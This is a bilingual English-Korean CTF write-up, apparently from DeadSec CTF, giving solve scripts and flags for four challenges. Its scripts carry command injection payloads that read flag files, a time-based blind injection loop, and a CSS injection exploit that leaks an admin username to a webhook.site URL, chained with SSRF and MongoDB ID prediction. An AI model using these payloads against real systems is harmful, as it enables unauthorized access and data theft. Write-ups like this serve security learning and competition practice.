


[한국어로 보기](#korean)

### Table of contents

- [web](#web-en)
  - [Ping2 (100pt, 140solves)](#ping2-en)
  - [bing_revenge (100pt, 84solves)](#bing-revenge-en)
  - [Colorful Board (360pt, 15solves, 🩸firstblood)](#colorful-board-en)
- [misc](#misc-en)
  - [Mic check (100pt, 264solves, 🩸firstblood)](#mic-check-en)

<h1 id="web-en">Web</h1>
<h2 id="ping2-en">Ping2 (100pt, 140solves)</h2>

:::important[info]

- keywords: `command injection`

:::

```py
from requests import *

url = 'https://a71dea2b2f9779381f8964e8.deadsec.quest'

res = post(url+'/bing.php', data={'Submit': True, 'ip': '223.130.192.248;cacatt${IFS}/flaflagg.txt'})
print(res.text)
```

`DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}`

<h2 id="bing-revenge-en">bing_revenge (100pt, 84solves)</h2>

:::important[info]

- keywords: `blind command injection`, `time-based`

:::

```py
from time import time
from requests import *
import string
from tqdm import tqdm

url = 'https://c15b1a06903d4b9345738ae8.deadsec.quest'

flagString = string.digits+'abcdef'+'-' # I first tried with string.printable

flag = 'DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}'

for i in range(len(flag), 100):
    for j in tqdm(flagString):
        start = time()
        res = post(url+'/flag', data={'host':f'''/dev/null;python -c "__import__('time').sleep(10) if open('/flag.txt').read()[{i}] == '{j}' else None"'''})
        if time() - start > 10:
            print('Found:', flag+j)
            flag += j
            break
```

`DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}`

<h2 id="colorful-board-en">Colorful Board (360pt, 15solves, 🩸firstblood)</h2>

:::important[info]

- keywords: `css injection`, `ssrf`, `mongodb id prediection`

:::




Yay! I first-blooded CTF challenge for the first time in my life.  

### Analysis & Exploit

this challenge consists Nest.js and mongodb. First, I search a flag in the app.

```js
const init_db = async () => {
  await db.users.insertMany([
      { username: "DEAD{THIS_IS_", password: "dummy", personalColor: "#000000", isAdmin: true },
  ]);

  await delay(randomDelay());
  await db.notices.insertOne({ title: "asdf", content: "asdf" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "qwer", content: "qwer" });
}
```

the flag is devided into two and the first one is Admin's username and the second one is one of notices. And there is `/report` route that make a admin visit a url. (No restrictions on url)

After that, I found this code in `post.hbs` and `post-edit.hbs`

```hbs
<style>
  .author {
    color: {{{ author.personalColor }}}
  }

  .user {
    color: {{{ user.personalColor }}}
  }

  .edit-button {
    position: absolute;
    top: 10px;
    right: 10px;
  }
</style>
```

this code is vulnerable to css injection because they using `{{{ }}}` instead `{{ }}`. So, we can do css injection by inject some code to `author.personalColor` or `user.personalColor`.  
Let's read `post.hbs` and `post-edit.hbs` to know attack-vector.  

`post.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <div class="container">
        <h1>{{post.title}}</h1>
        <p class="author">Author: {{author.username}}</p>
        <p class="user">Your account: {{user.username}}</p>
        {{#if user.isAdmin}}
        <a href="/post/edit/{{post.id}}" class="button danger">수정</a>
        {{/if}}
        <hr>
        <div class="post-content">
            {{post.content}}
        </div>
        <a href="/post" class="button">Go to Posts</a>
    </div>
</body>
```

In `post.hbs`, there is no attack point to css injection because name of admin is revealed in `<p>` tag. ~~Nothing that could leak `innerText` of `<p>` tag.~~. It is possible this selection `#:~:text={urllib.parse.quote(flag)}` but it doesn't work on this chall.  
  
`post-edit.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <header>
        <div class="container">
            <h1>Colorful Board</h1>
            <div class="user-info">
                {{#if user}}
                <span class="username">{{user.username}}</span>
                <a onclick="logout()" class="button">Logout</a>
                {{/if}}
            </div>
        </div>
    </header>

    <main>
        <div class="container">
            <h2>Edit Post</h2>
            <p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
            <p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
            <div id="new-post">
                <div>
                    <label for="title">Title</label>
                    <input type="text" id="title" name="title" value="{{post.title}}" required>
                </div>
                <div>
                    <label for="content">Content</label>
                    <textarea id="content" name="content" required>{{post.content}}</textarea>
                </div>
                <button id="submit" class="button">Edit</button>
            </div>
        </div>
    </main>

    (some script)

    ...

</body>

</html>
```

Wow, there is `input` that shows current username!

```hbs
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

Finally we can do css injection like this code and get first part of flag.

```
input[class=user][value^="DEAD{....."] {
  background: url('https://webhook.site/xxxxxxxx'+'?flag='+flag)
}
```

To get second part of flag, we should look at the `/admin/notice` route.

in `admin.controller.ts`

```ts
@Controller('admin')
export class AdminController {
    constructor(
        private readonly adminService: AdminService
    ) { }

    @Get('/grant')
    @UseGuards(LocalOnlyGuard)
    async grantPerm(@Query('username') username: string) {
        return await this.adminService.authorize(username);
    }

    @Get('/notice')
    @UseGuards(AdminGuard)
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();

        return { notices: notices.filter(notice => !notice.title.includes("flag")) };
    }

    @Get('/report')
    async test(@Query('url') url: string) {
        await this.adminService.viewUrl(url);

        return { status: 200, message: 'Reported.' };
    }

    @Get('/notice/:id')
    @UseGuards(AdminGuard)
    @Render('notice')
    async renderNotice(@Param('id') id: Types.ObjectId) {
        const notice = await this.adminService.getNotice(id);

        return { notice: notice };
    }
}
```

To access `/admin/notice`, you need to get admin. Hmm....  
Let's read `LocalOnlyGuard` in `/admin/grant`.

```ts
@Injectable()
export class LocalOnlyGuard implements CanActivate {
    canActivate(
        context: ExecutionContext,
    ): boolean | Promise<boolean> | Observable<boolean> {
        const req = context.switchToHttp().getRequest();
        const clientIp = req.ip;
        const localIps = ['127.0.0.1', '::1', '::ffff:127.0.0.1'];

        if (localIps.includes(clientIp)) {
            return true;
        } else {
            throw new HttpException('Only Local!', 404);
        }
    }
}
```

Oh! This code only checks wheter access ip is localhost. Even this `/admin/grant` route is GET!!! So, we can use SSRF to grant our account by report function.  

After you are granted, `/admin/notice` shows only two notice because flag notice is filtered.

```ts
@Get('/notice')
@UseGuards(AdminGuard)
@Render('notice-main')
async renderAllNotice() {
  const notices = await this.adminService.getAllNotice();

  return { notices: notices.filter(notice => !notice.title.includes("flag")) };
}
```

id of first report (asdf) was `66a48616b3027e48519f2d68`  
id of sencond report (qwer) was `66a4861db3027e48519f2d6a`  

mongodb's id is predictable because of <a href="https://www.mongodb.com/ko-kr/docs/manual/reference/method/ObjectId/" target="_blank">this logic</a>.  
so, id of flag report may be `66a4861{7-c}b3027e48519f2d69`

### Exploit Code

```py
import string
from requests import *
from tqdm import tqdm

url = 'https://2f64abf33c9e01b82242cf14.deadsec.quest'
flagString = ' _}'+string.ascii_letters+string.digits
eq = 5

def split_string_equally(s, n):
    length = len(s)
    part_size = length // n
    remainder = length % n

    parts = []
    start = 0

    for i in range(n):
        end = start + part_size + (1 if i < remainder else 0)
        parts.append(s[start:end])
        start = end

    return parts

def makeCSS(flag, n):
    css = ''
    print(split_string_equally(flagString, eq)[n])
    for i in split_string_equally(flagString, eq)[n]:

        css += 'input[class=user][value^="'+flag+i+'"]{background: url(\'https://webhook.site/7c6f98ef-02a0-4d77-86ba-be115fb8ed15?flag='+flag+i+'\');}\n'''
    print(css)
    return css


flag = 'DEAD{Enj0y_y0ur_'
for i in tqdm(range(len(flag), 30)):
    for j in range(eq):
        print(f'{j}exon{i}')
        post(url+'/auth/register', json={'username': f'{j}exon{i}', 'password': 'exon','personalColor': '''#000000}\n''' + makeCSS(flag, j) + 'test {\n'})
        s = Session() 
        res = s.post(url+'/auth/login', json={'username': f'{j}exon{i}', 'password': 'exon'})
        s.cookies['accessToken'] = res.json()['accessToken']
        res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})
        
        res = s.get(url+'/post/all')
        print(res.text)
        postId = res.json()[0]['_id']
        print(postId)
        
        res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
        print(res.text)
        
    a = input()
    flag += a


post(url+'/auth/register', json={'username': 'exon', 'password': 'exon','personalColor': '''#000000}\n
input{background: url('http://localhost:1337/admin/grant?username=exon');}\n
test {\n'''})
s = Session() 
res = s.post(url+'/auth/login', json={'username': 'exon', 'password': 'exon'})
s.cookies['accessToken'] = res.json()['accessToken']
res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})

res = s.get(url+'/post/all')
print(res.text)
postId = res.json()[0]['_id']
print(postId)

res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
print(res.text)


# 66a48616b3027e48519f2d68

# 66a48616b3027e48519f2d69

# 66a4861db3027e48519f2d6a

# hand brute-force
```

FLAG: `DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}`

<h1 id="misc-en">Misc</h1>
<h2 id="mic-check-en">Mic check (100pt, 264solves, 🩸firstblood)</h2>

:::important[info]

- keywords: `auto`

:::

```py
from pwn import *

# Connect to the remote server
p = remote('35.224.190.229', 30827)

for i in range(100):
    p.recvuntil('mic test >  ')
    a = p.recvuntil(b' [').decode().split(' [')[0]
    print(a)
    p.sendline(a)
p.interactive()
```

# Korean

### Table of contents

- [web](#web-ko)
  - [Ping2 (100pt, 140solves)](#ping2-ko)
  - [bing_revenge (100pt, 84solves)](#bing-revenge-ko)
  - [Colorful Board (360pt, 15solves, 🩸firstblood)](#colorful-board-ko)
- [misc](#misc-ko)
  - [Mic check (100pt, 264solves, 🩸firstblood)](#mic-check-ko)

<h1 id="web-ko">Web</h1>
<h2 id="ping2-ko">Ping2 (100pt, 140solves)</h2>

:::important[info]

- keywords: `command injection`

:::

```py
from requests import *

url = 'https://a71dea2b2f9779381f8964e8.deadsec.quest'

res = post(url+'/bing.php', data={'Submit': True, 'ip': '223.130.192.248;cacatt${IFS}/flaflagg.txt'})
print(res.text)
```

`DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}`

<h2 id="bing-revenge-ko">bing_revenge (100pt, 84solves)</h2>

:::important[info]

- keywords: `blind command injection`, `time-based`

:::

```py
from time import time
from requests import *
import string
from tqdm import tqdm

url = 'https://c15b1a06903d4b9345738ae8.deadsec.quest'

flagString = string.digits+'abcdef'+'-' # I first tried with string.printable

flag = 'DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}'

for i in range(len(flag), 100):
    for j in tqdm(flagString):
        start = time()
        res = post(url+'/flag', data={'host':f'''/dev/null;python -c "__import__('time').sleep(10) if open('/flag.txt').read()[{i}] == '{j}' else None"'''})
        if time() - start > 10:
            print('Found:', flag+j)
            flag += j
            break
```

`DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}`

<h2 id="colorful-board-ko">Colorful Board (360pt, 15solves, 🩸firstblood)</h2>

:::important[info]

- keywords: `css injection`, `ssrf`, `mongodb id prediection`

:::


내 인생 처음으로 CTF에서 퍼스트 블러드했다.

### Analysis & Exploit

Nest.js와 mongodb로 구성되어 있는 문제이다. 먼저 플래그를 검색해 역으로 분석을 시작했다.

```js
const init_db = async () => {
  await db.users.insertMany([
      { username: "DEAD{THIS_IS_", password: "dummy", personalColor: "#000000", isAdmin: true },
  ]);

  await delay(randomDelay());
  await db.notices.insertOne({ title: "asdf", content: "asdf" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "qwer", content: "qwer" });
}
```

플래그가 반쪽 두개로 나뉘어 하나는 어드민의 이름으로, 다른 하나는 공지의 내용으로 나뉘어졌다. 그리고 `/report` 루트로 어드민을 url에 접속시킬 수 있다. (참고로 url에 대한 제한은 전혀 없다.)

그러고 나서 `post.hbs`와 `post-edit.hbs`를 봤다.

```hbs
<style>
  .author {
    color: {{{ author.personalColor }}}
  }

  .user {
    color: {{{ user.personalColor }}}
  }

  .edit-button {
    position: absolute;
    top: 10px;
    right: 10px;
  }
</style>
```

이 코드는 `{{ }}` 대신 `{{{ }}}`를 써서 css injection이 가능하다. 즉 `author.personalColor` 또는 `user.personalColor`를 css에 주입시켜서 css injection을 발생시킬 수 있다. 더 자세한 공격 벡터를 찾기 위해 `post.hbs`와 `post-edit.hbs`를 봐보자.

`post.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <div class="container">
        <h1>{{post.title}}</h1>
        <p class="author">Author: {{author.username}}</p>
        <p class="user">Your account: {{user.username}}</p>
        {{#if user.isAdmin}}
        <a href="/post/edit/{{post.id}}" class="button danger">수정</a>
        {{/if}}
        <hr>
        <div class="post-content">
            {{post.content}}
        </div>
        <a href="/post" class="button">Go to Posts</a>
    </div>
</body>
```
  
`post.hbs`에서는 admin 이름이 노출된 곳이 `<p>` 태그 밖에 없다. ~~p 태그의 `innerText`를 css injection 하는 것은 불가능하다.고 생각했는데~~ `#:~:text={urllib.parse.quote(flag)}` 이런 형식으로 가능하다. 하지만 이 문제에서는 작동되지 않는다고 한다. (본인은 직접 안해봄)
  
`post-edit.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <header>
        <div class="container">
            <h1>Colorful Board</h1>
            <div class="user-info">
                {{#if user}}
                <span class="username">{{user.username}}</span>
                <a onclick="logout()" class="button">Logout</a>
                {{/if}}
            </div>
        </div>
    </header>

    <main>
        <div class="container">
            <h2>Edit Post</h2>
            <p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
            <p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
            <div id="new-post">
                <div>
                    <label for="title">Title</label>
                    <input type="text" id="title" name="title" value="{{post.title}}" required>
                </div>
                <div>
                    <label for="content">Content</label>
                    <textarea id="content" name="content" required>{{post.content}}</textarea>
                </div>
                <button id="submit" class="button">Edit</button>
            </div>
        </div>
    </main>

    (some script)

    ...

</body>

</html>
```

이번엔 현재 유저이름을 알려주는 `input`이 있다!

```hbs
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

드디어 css injection을 하고 flag의 첫부분을 알 수 있다.

```
input[class=user][value^="DEAD{....."] {
  background: url('https://webhook.site/xxxxxxxx'+'?flag='+flag)
}
```

이제 플래그의 두번째 부분을 알게 위해 `/admin/notice` 엔드포인트를 봐보자

in `admin.controller.ts`

```ts
@Controller('admin')
export class AdminController {
    constructor(
        private readonly adminService: AdminService
    ) { }

    @Get('/grant')
    @UseGuards(LocalOnlyGuard)
    async grantPerm(@Query('username') username: string) {
        return await this.adminService.authorize(username);
    }

    @Get('/notice')
    @UseGuards(AdminGuard)
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();

        return { notices: notices.filter(notice => !notice.title.includes("flag")) };
    }

    @Get('/report')
    async test(@Query('url') url: string) {
        await this.adminService.viewUrl(url);

        return { status: 200, message: 'Reported.' };
    }

    @Get('/notice/:id')
    @UseGuards(AdminGuard)
    @Render('notice')
    async renderNotice(@Param('id') id: Types.ObjectId) {
        const notice = await this.adminService.getNotice(id);

        return { notice: notice };
    }
}
```

`/admin/notice`에 접근하기 위해 admin 권한이 필요하다...흠..  
유저의 권한을 높이는 `/admin/grant`를 사용하기 위해 `LocalOnlyGuard`를 읽어보자

```ts
@Injectable()
export class LocalOnlyGuard implements CanActivate {
    canActivate(
        context: ExecutionContext,
    ): boolean | Promise<boolean> | Observable<boolean> {
        const req = context.switchToHttp().getRequest();
        const clientIp = req.ip;
        const localIps = ['127.0.0.1', '::1', '::ffff:127.0.0.1'];

        if (localIps.includes(clientIp)) {
            return true;
        } else {
            throw new HttpException('Only Local!', 404);
        }
    }
}
```

이 코드는 접근된 ip가 로컬호스트인지만 확인한다. 심지어 `/admin/grant`에 접근하는 method는 GET이다!! 즉 `/report` 를 사용하여 SSRF를 진행해 우리의 계정을 admin 권한으로 높일 수 있다.  

어드민 권한을 얻으면, `/admin/notice`는 오직 두 개의 notice만 보여준다. 왜냐면 아래 코드에서 flag가 들어간 notice를 필터링하기 때문이다.

```ts
@Get('/notice')
@UseGuards(AdminGuard)
@Render('notice-main')
async renderAllNotice() {
  const notices = await this.adminService.getAllNotice();

  return { notices: notices.filter(notice => !notice.title.includes("flag")) };
}
```

첫 report (asdf)의 id: `66a48616b3027e48519f2d68`  
두번째 report (qwer)의 id: `66a4861db3027e48519f2d6a`  

mongodb의 id는 <a href="https://www.mongodb.com/ko-kr/docs/manual/reference/method/ObjectId/" target="_blank">다음과 같은 로직</a>으로 생성되기 때문에 예측이 가능하다. 그러므로 flag report의 id는 `66a4861{7-c}b3027e48519f2d69` 중 하나이다.

### Exploit Code

```py
import string
from requests import *
from tqdm import tqdm

url = 'https://2f64abf33c9e01b82242cf14.deadsec.quest'
flagString = ' _}'+string.ascii_letters+string.digits
eq = 5

def split_string_equally(s, n):
    length = len(s)
    part_size = length // n
    remainder = length % n

    parts = []
    start = 0

    for i in range(n):
        end = start + part_size + (1 if i < remainder else 0)
        parts.append(s[start:end])
        start = end

    return parts

def makeCSS(flag, n):
    css = ''
    print(split_string_equally(flagString, eq)[n])
    for i in split_string_equally(flagString, eq)[n]:

        css += 'input[class=user][value^="'+flag+i+'"]{background: url(\'https://webhook.site/7c6f98ef-02a0-4d77-86ba-be115fb8ed15?flag='+flag+i+'\');}\n'''
    print(css)
    return css


flag = 'DEAD{Enj0y_y0ur_'
for i in tqdm(range(len(flag), 30)):
    for j in range(eq):
        print(f'{j}exon{i}')
        post(url+'/auth/register', json={'username': f'{j}exon{i}', 'password': 'exon','personalColor': '''#000000}\n''' + makeCSS(flag, j) + 'test {\n'})
        s = Session() 
        res = s.post(url+'/auth/login', json={'username': f'{j}exon{i}', 'password': 'exon'})
        s.cookies['accessToken'] = res.json()['accessToken']
        res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})
        
        res = s.get(url+'/post/all')
        print(res.text)
        postId = res.json()[0]['_id']
        print(postId)
        
        res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
        print(res.text)
        
    a = input()
    flag += a


post(url+'/auth/register', json={'username': 'exon', 'password': 'exon','personalColor': '''#000000}\n
input{background: url('http://localhost:1337/admin/grant?username=exon');}\n
test {\n'''})
s = Session() 
res = s.post(url+'/auth/login', json={'username': 'exon', 'password': 'exon'})
s.cookies['accessToken'] = res.json()['accessToken']
res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})

res = s.get(url+'/post/all')
print(res.text)
postId = res.json()[0]['_id']
print(postId)

res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
print(res.text)


# 66a48616b3027e48519f2d68

# 66a48616b3027e48519f2d69

# 66a4861db3027e48519f2d6a

# hand brute-force
```

FLAG: `DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}`

<h1 id="misc-ko">Misc</h1>
<h2 id="mic-check-ko">Mic check (100pt, 264solves, 🩸firstblood)</h2>

:::important[info]

- keywords: `auto`

:::

```py
from pwn import *

# Connect to the remote server
p = remote('35.224.190.229', 30827)

for i in range(100):
    p.recvuntil('mic test >  ')
    a = p.recvuntil(b' [').decode().split(' [')[0]
    print(a)
    p.sendline(a)
p.interactive()
```
